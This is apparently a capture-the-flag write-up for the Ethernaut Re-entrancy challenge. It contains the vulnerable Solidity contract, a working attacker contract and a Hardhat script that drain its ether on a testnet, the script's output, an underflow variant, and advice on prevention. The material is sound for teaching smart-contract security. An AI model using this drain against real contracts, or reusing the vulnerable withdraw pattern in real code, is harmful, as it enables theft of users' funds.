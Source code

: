 ```yaml
---
title: Ethernaut Re-entrancy
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Re-entrancy challenge writeup
---
```


## Re-entrancy

### Challenge

The goal of this level is for you to steal all the funds from the contract.

  Things that might help:

* Untrusted contracts can execute code where you least expect it.
* Fallback methods
* Throw/revert bubbling
* Sometimes the best way to attack a contract is with another contract.
* See the Help page above, section "Beyond the console"


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

### Background

This is a classic re-entrancy attack as the title suggests. A re-entrancy attack is when the victim contact calls into an attacker controlled contract in some way, and the attacker controlled contract calls some functionality in the victim contract before the first function call is finished. This can have some devestating implecation if the contract assumes that the entire function call has finished. For example, if a withdraw function is called all checks passed and before the new amount is updated the function gives execution to the attacker controled contract, the attacker can re-enter the same function before the total was subrated and receive the funds again.  

### Attack

Create a contract that when receiving funds calls the `withdraw` function again until all funds are withdrawn. Then make sure to stop to avoid reverting. The contract should also have the functionality to call the `withdraw` function

* Create a contract that can:
  * Call the `withdraw` function
  * When receiving funds call `withdraw` again util the target is out of funds
* Transfer all funds to the attacker controlled contract using the `donate` function
* Call the `withdraw` functionality through the attacker controlled contract


#### ReentranceSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/Reentrance.sol';

contract ReentranceSolve {

    Reentrance reentranceContract;
    uint256 amount;
    uint256 times;
    uint256 counter;

    constructor(address payable _reentranceAddress, uint256 _amount) public {
        reentranceContract = Reentrance(_reentranceAddress);
        amount = _amount;
        times = 0;
        counter = 0;
    }
    
    function withdraw (uint256 _times) public {
        times = _times;
        // _king.call.value(msg.value)("");
        // _king.call{value: msg.value}("");
        reentranceContract.withdraw(amount);
    }

    receive() external payable {
        counter++;
        if (counter < times)
            reentranceContract.withdraw(amount);
    }
}
```

#### reentrance-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    reentranceAddress = "0x143E03bB8B5e89ec5A7f38B2F52296378723e27C";
    contract = await ethers.getContractAt("Reentrance", reentranceAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    contractBalance = await ethers.provider.getBalance(contract.address)

    console.log("Initial Contract Balance: " + contractBalance)
    
    ReentranceSolve = await ethers.getContractFactory("ReentranceSolve");
    reentranceSolve = await ReentranceSolve.deploy(contract.address, contractBalance);
    await reentranceSolve.deployed();

    // donate funds for attacker contract
    tx = await contract.donate(reentranceSolve.address, {value: contractBalance})
    receipt = await tx.wait()

    contractBalance = await ethers.provider.getBalance(contract.address)
    reentranceSolveBalance = await ethers.provider.getBalance(reentranceSolve.address)
    reentranceSolveTokenBalance = await contract.balanceOf(reentranceSolve.address)
    console.log("Contract Balance      : " + contractBalance)
    console.log("Attacker Balance      : " + reentranceSolveBalance)
    console.log("Attacker Token Balance: " + reentranceSolveTokenBalance)

    // transfer token funds
    tx = await reentranceSolve.connect(account).withdraw(2)
    receipt = await tx.wait()

    contractBalance = await ethers.provider.getBalance(contract.address)
    reentranceSolveBalance = await ethers.provider.getBalance(reentranceSolve.address)
    reentranceSolveTokenBalance = await contract.balanceOf(reentranceSolve.address)
    console.log("Contract Balance      : " + contractBalance)
    console.log("Attacker Balance      : " + reentranceSolveBalance)
    console.log("Attacker Token Balance: " + reentranceSolveTokenBalance)
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/reentrance-solve.js --network rinkeby
Initial Contract Balance: 1000000000000000
Contract Balance      : 2000000000000000
Attacker Balance      : 0
Attacker Token Balance: 1000000000000000
Contract Balance      : 0
Attacker Balance      : 2000000000000000
Attacker Token Balance: 115792089237316195423570985008687907853269984665640564039457583007913129639936
```

#### Alternative solution

If our funds were much less that the contract funds we might run in an out of gas error because the times we reenter might a lot. This might require that we run this attack in multiple steps. An alternative would be to run it twice so that our balance wraps to an huge number and then run once more and extract the full contract balance. 

### Success Message

In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

 
#### The DAO Hack

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).
